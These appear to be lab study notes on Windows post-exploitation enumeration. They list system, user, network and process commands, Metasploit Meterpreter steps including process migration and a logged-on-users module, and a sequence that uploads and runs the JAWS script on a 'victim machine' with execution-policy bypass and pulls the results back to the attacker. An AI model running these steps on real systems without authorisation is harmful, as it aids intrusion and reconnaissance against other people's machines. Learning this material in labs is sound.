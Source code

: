 # Post-Exploitation
## Windows Local Enumeration

### Enumerating System information
What are we looking for:
        1. Hostname = `hostname`, `systeminfo`
        2. OS name = `systeminfo`
        3. OS Build & Service Pack(Windows 7 SP1 7600) = `systeminfo`
        4. OS Architecture(x64/x86) = `systeminfo`
        5. Installed updates/Hotfixes = `wmic qfe get Caption,Description,HotFixID,InstalledOn,`, `systeminfo`
HttpFileServer 2.3 = rejetto, searchsploit rejetto
After gaining a reverse shell: `getuid`

### Enumerating Users & Groups
What are we looking for:
1. Current user & priveleges = `getuid`, `getprivs`,`whoami`
2. Additional user information = `whoami /priv`, `net user user_to_look_into`
3. other users on the system = `query user`, `net users`
4. Groups = `net localgroup`
5. Members of the built-in administrator group = `net localgroup administrators`
   
msfconsole module for logged on and previously logged on users:
1. background previous session(CTRL+z): `search logged_on`
2. `use 0` (`post/windows/gather/enum_logged_on_users`)
3.  `set SESSION ID`
4.  `run`
    
### Enumerate Network Information
What are we looking for:
1. Current IP address & network adapter = `ipconfig`, `ipconfig /all`
2. Internal networks = `arp -a`, `ipconfig /all`
3. TCP/UDP services running and their respective ports = `netstat -ano`
4. Other hosts on the network = ``
5. Routing Table = ``
6. Windows Firewall state = `netsh advfirewall firewall`,`netsh advfirewall firewall show allprofiles` `netsh firewall show state`

### Enumerating Processes & Services
What are we lookin for:
1. Running processes & services = `ps`, `tasklist /SVC`
2. Services = `net start`, 
3. Identify Process = `pgrep process`, migrate to:`migrate process`
4. Scheduled tasks = `wmic service list brief`

 ### Automating Windows Local Enumeration
 JAWS: https://github.com/411Hall/JAWS
 1. Save Raw file on vm and copy content: `CTRL + SHIFt + ALT` to open clipboard, and paste into empty file, store it on Desktop --> filename: jaws-enum.ps1
 1. msfconsole Session: `sessions 1`(choose session)
 2. On victim machine go to temp: `cd C:\\`, if not exist `mkdir Temp` and cd in to it.
 3. Upload file: `upload /root/Desktop/jaws-enum.ps1`
 4. Open shell session & running file: `shell` -> `powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt`
 5. Terminate channel and download to attacker pc: Terminate:`CTRL+c`, `download JAWS-Enum.txt`
## Linux Local Enumeration 